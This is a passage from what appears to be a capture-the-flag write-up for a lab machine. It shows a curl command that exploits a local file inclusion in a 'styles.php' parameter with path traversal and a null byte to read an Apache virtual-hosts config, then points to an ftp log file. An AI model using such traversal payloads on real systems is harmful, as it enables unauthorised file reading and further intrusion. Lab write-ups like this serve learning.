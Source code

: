 ```shell
```
Then so far I was ignoring the included file `httpd-vhosts.conf`. when I get that file with the `curl` command:
```shell
$ curl -s "http://monitor.cybox.company/admin/styles.php?style=
> ../../../../../../opt/bitnami/apache2/conf/extra/httpd-vhosts.conf%00" \
> -b "PHPSESSID=2crh0mfhjp77iehjp7p2bdurh4" > httpd-vhosts.conf
```
And I read it:
```shell
$ less httpd-vhosts.conf
```
Then I get the config of all the virtual hosts, and I start getting some files with the paths I found in that file, and after reading it several times, then I notice that the `ftp` vhost has a `CustomLog` file:

![evidence](./static/14-httpd-vhosts.png)
